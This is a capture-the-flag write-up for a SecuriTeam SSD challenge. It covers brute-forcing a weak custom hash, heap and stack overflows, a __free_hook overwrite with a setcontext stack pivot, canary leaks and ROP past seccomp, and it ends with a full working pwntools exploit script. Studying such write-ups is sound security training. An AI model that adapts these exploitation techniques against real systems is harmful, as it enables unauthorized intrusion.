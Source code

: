 ```yaml
---
title: SSD Nov
---
```


I recently won the [SSD November challenge](https://twitter.com/SecuriTeam_SSD/status/1325469620493545474), the challenge itself was actually quite interesting. 

The first vulnerability was improper hashing. 

```c
  while (i < size) {
    tmp_value._0_1_ = input[i];
    if ((int)(char)tmp_value * 10 < 0x20) {
      tmp_value._0_1_ = (char)tmp_value % '\x05';
    }
    else {
      tmp_value._0_1_ = (char)(((int)(char)tmp_value * 0x124343) % 0xef);
    }
    input[i] = (char)tmp_value;
    i = i + 1;
  }
```

Upon seeing this, I was immediately suspicious. Most hash functions, even handrolled ones, have both addition and multiplication? I didn't really understand what was going on, but analysis through GDB showed that the values tended towards very high values (ie 0xfc, 0xfd, 0xfe, 0xff, 0x00). 

Because the hash is done per character, I handpicked a few characters with distinct hash values after running them through the max repetition of hashes. From here, we can easily brute force the 4 byte long admin password. 

<!--more-->

```python
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
```

After getting access to the admin interface, I used a buffer overflow in the "Set Header" functionality of the admin panel. Specifically, this allowed us to overwrite a char* and then read into it, effectively giving an arbitrary read/write primitive. 

I chose to overwrite `__free_hook` with a `mov rsp, [rdi + 0xa0]` gadget located at `setcontext+53`. This allowed me to pivot the stack to the next chunk I freed. Unfortunately, seccomp means that we'll also need to pwn the forked server process. 

After using a rop chain to leak the stack and thus stack canary, I was ready to send a poisoned message to the server. To do this, I used the lack of checks on the passed in `pass_len` in `create_user`. 

```c
  memcpy(pass_old,password,(long)pass_len);
```

This copies an attacker controlled value into a fixed 64 byte buffer on the stack. Because we had previously leaked the canary, it was easy to perform a buffer overflow attack. Luckily, the name of users is stored in binary space, meaning I could put the argument to `system` at a known location by hiding it in the name.

```python
p.send(
  p16(1) + p16(0)
  + p16(0x110)
  + "cat /home/ctf/flag\x00".ljust(64, "A")
  + "B" * 0x48 + p64(cleak) + p64(0) 
  + p64(prdi) + p64(0x605d50)
  + p64(leak + 283552)
)
```

My full solve script can be found below: 

```python
from pwn import *

p = remote("localhost", 2323)
#p = process("./friend_net")

p.sendlineafter("speed):", "99")

def bash():
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
          p.sendlineafter(">", "1")
          p.sendlineafter(":", "admin")
          sleep(0.01)
          p.sendlineafter(":", chrs[i1] + chrs[i2] + chrs[i3] + chrs[i4])

          p.recvuntil("with user id ")

          val = int(p.recvline())
          if val != -1:
            print("Logged in")
            return

  print("FAILED")
  exit(1)

p.sendlineafter(">", "1")
p.sendlineafter(":", "reg")
sleep(0.01)
p.sendlineafter(":", "ABC123")

p.sendlineafter(">", "4")
p.sendlineafter("ID:", "14")

bash()

p.sendlineafter(">", "8")
p.sendlineafter(">", "1")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")

stdout = 6312160
p.sendafter("Data:", "A" * 512 + p64(stdout)[:6])

p.sendlineafter(">", "2")
p.recvuntil("version ")

leak = u64(p.recvline(keepends=False).ljust(8, "\x00")) - 3954208
print(hex(leak))

p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")
# freehook
p.sendafter("Data:", "A" * 512 + p64(leak + 3958696)[:6])

setcontext = 293712
p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendafter("No.:", p64(leak + setcontext + 53))
sleep(0.01)
p.sendafter("Data:", "A" * 512 + p64(0x605320)[:6])

p.sendlineafter(">", "5")
p.sendlineafter(":", "AAAA")

p.sendlineafter(">", "4")
p.recvuntil("version ")
hleak = u64(p.recvline(keepends=False).ljust(8, "\x00")) + 0x0000000001d5e280 - 0x0000000001d5e070    
print(hex(hleak))

ret = 0x402b8a
prax = leak + 0x0003a8b0    
prdi = leak + 0x0008e1b7    
prsi = leak +  0x00124f9b      
prdx = leak +   0x00001b92   
prsp = leak +  0x00054d9b      
sys = leak + 0x00122258 

print(hex(sys))

buff = 0x606100
fstack = hleak + 0x3000

environ = 3960632
p.sendlineafter(">", "5")
p.sendlineafter(":", "A" * 0xa0 + p64(hleak + 0xa0 + 0x10) + p64(ret) 

+ p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(leak + environ)
+ p64(prdx) + p64(8)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(0)
+ p64(prsi) + p64(fstack)
+ p64(prdx) + p64(0x800)
+ p64(sys) 
+ p64(prsp) + p64(fstack - 8)
)

p.sendlineafter(">", "6")
p.sendlineafter(":", "1")

sleep(0.5)
ui.pause()

p.recv(1)

sleak = ""
for i in range(8):
  sleak += p.recv(1)
  
sleak = u64(sleak)
print(hex(sleak))

p.send(
p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(sleak - 0x100)
+ p64(prdx) + p64(8)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(0)
+ p64(prsi) + p64(buff)
+ p64(prdx) + p64(0x200)
+ p64(sys)

+ p64(prax) + p64(1)
+ p64(prdi) + p64(8)
+ p64(prsi) + p64(buff)
+ p64(prdx) + p64(0x200)
+ p64(sys)

+ p64(0x4016db)
)

sleep(0.01)

cleak = ""
for i in range(8):
  cleak += p.recv(1)
  
cleak = u64(cleak)
print(hex(cleak))

p.send(
  p16(1) + p16(0)
  + p16(0x110)
  + "cat /home/ctf/flag\x00".ljust(64, "A")
  + "B" * 0x48 + p64(cleak) + p64(0) 
  + p64(prdi) + p64(0x605d50)
  + p64(leak + 283552)
)

sleep(0.01)
p.interactive()
```

